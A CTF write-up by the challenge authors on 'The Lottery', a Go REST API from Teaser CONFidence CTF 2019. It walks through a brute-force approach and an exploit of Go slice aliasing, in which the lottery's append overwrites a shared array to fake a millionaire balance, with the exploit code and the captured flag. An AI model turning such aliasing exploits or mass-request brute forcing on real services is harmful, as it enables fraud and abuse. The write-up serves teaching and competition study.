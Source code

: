# The Lottery

The **last solved** challenge at 'Teaser CONFidence CTF 2019'.

## Logic

The challenge is a REST API written in Go. It has a functionality of choosing
a lottery winner along with the accounts *management*.

### Package `app`

Account:
```go
type Account struct {
	Name    string `json:"name"`
	Amounts []int  `json:"amounts"`
}
```

Basically, we may do two things with the account:
 - `Account.AddAmount(50)` adds provided amount (must be wihtin `0-99`),
        also total number of amounts must be less than 5,
 - `Service.LotteryAdd(account)` signs user up to the lottery.

You have two options to get a flag - your account must:
 1. Be a millionaire (sum of amounts > 1,000,000),
 2. Be a lottery's winner.

### Package `transport`

There is implementation of HTTP handlers and routing. All we need to know is:
flag is served with the account of millionaire or lottery winner.

## Vulnerabilities

Let's take a look how exactly `lottery` works.

When we invoke `Service.LotteryAdd` method it passes the copy of `account`
object to lottery. It means we have the same object (literally bytes) in two
places: `lottery` (copy) and `service` (original).


The next step: `lottery.evaluate` loops over previously copied accounts and does:
```go
amounts := append(account.Amounts, randInt(999913, 3700000))
```

Pretty cool. It adds a really big number (~1m) to `account.Amounts`. If only it
could be saved at the 'original' account too...

Then it checks if total sum of amounts and our random number is equal to
`1259264`.

### Solution 1 (brute force)

Regardless of added amounts to account, we have only one value that wins the
lottery (in range `999913-3700000`).

```python
>>> 3700000 - 999913
2700087
```

Theoretically, to get a flag you may just create accounts and after
`LOTTERY_PERIOD` duration check if this user is a lottery winner.

For each try we must do three HTTP requests:
 1. Create an account,
 2. Add account to lottery,
 3. After `LOTTERY_PERIOD` duration check if the account is a winner.

 Let's do a quick math:
```python
>>> 2700087*3        # total number of requests
8100261
>>> 8100261 / 2500   # divide by 2500 rps (are you capable of doing more?)
3240.1044
>>> 3240.1044 / 3600 # how many hours? 
0.90
```

As you can see, with a high confidence it was possible to get a flag within one hour!
It wasn't intended solution, but probably some teams managed to use it.
Congratulations though.

For more information, you can read the CTF Post Mortem: https://github.com/p4-team/ctf/tree/master/2019-03-17-confidence2019#4-monitoring

### Solution 2 (go slices)

Let's go back to previously noticed amounts `append` with a big number.
So, how exactly does it work?

We append an `Account`'s attribute which is a `[]int` slice. 
```go
type Account struct {
	Amounts []int // This is a []int slice.
}
```
However, what's a slice? (Worth reading: https://blog.golang.org/go-slices-usage-and-internals)

Definition of slice:
> A slice is a descriptor of an array segment. It consists of a pointer to the
> array, the length of the segment, and its capacity (the maximum length of
> the segment).

![Slice visualization](images/go-slices-usage-and-internals_slice-struct.png)

In fact, a slice is a pointer to the memory and not the memory itself! It means
we are able to write to the *original* `amounts` memory while the lottery evaluation.
However, slice is kind of like the `vector` in C++. If you will append the
element over the available capacity, it will reallocate itself to the another
bigger memory chunk. Therefore we must ensure, reallocation won't happen.

Our strategy is creating two slices which point to the same memory. We copy
`Account` struct when adding to the `Lottery`, so the slice will be also
copied. When it comes to the capacity - we need to have such length and
capacity that `append` won't reallocate the slice (and just write to the
memory). `MaxAmountsLen = 4`, so we may exploit it by `capacity=4` and
`length=3`. In this case adding another item will just overwrite fourth element.

Anyway, here is the code:
```go
func HackLottery() {
  // Create new service.
  s := NewService(context.Background(), time.Millisecond, time.Minute)

  // Add new account.
  a, _ := s.AccountAdd()

  // Add '90' amount three times.
  s.AccountAddAmount(a.Name, 90)
  s.AccountAddAmount(a.Name, 90)
  s.AccountAddAmount(a.Name, 90)

  // Right now we have a slice with three values [90, 90, 90]
  // Do you know what's the capacity and length of it?
  // Length=3, Capacity=4.
  // It means that after the next 'append' we won't reallocate to the new memory.

  // We would like to extend our original slice to length=4 and then wait for
  // the lottery's append to overwrite the last item.

  // Add account to the 'Lottery'.
  s.LotteryAdd(a.Name)
  // Immediately after extend 'amounts' slice.
  s.AccountAddAmount(a.Name, 90)

  // 'Lottery.evaluate' should overwrite the last element in the original amounts.
  s.lottery.evaluate()

  // Does it work?
  a, _, _ = s.AccountGet(a.Name)
  fmt.Printf("%v\n", a.Amounts)
  // [90 90 90 1723342]
  // Yay, you are a millionaire.
}
```

Do you know why it doesn't work for slices with capacity less than 4?

## Flag

```sh
$ python hack.py       
p4{fucking-go-slices.com}
```

## Survey

![Which challenge was the coolest](images/bestchall.png)

Accordingly to the poll, 'The Lottery' was the second coolest challenge!
Thank you.

[https://github.com/p4-team/ctf/tree/writeup/2019-03-17-confidence2019](https://github.com/p4-team/ctf/tree/master/2019-03-17-confidence2019)
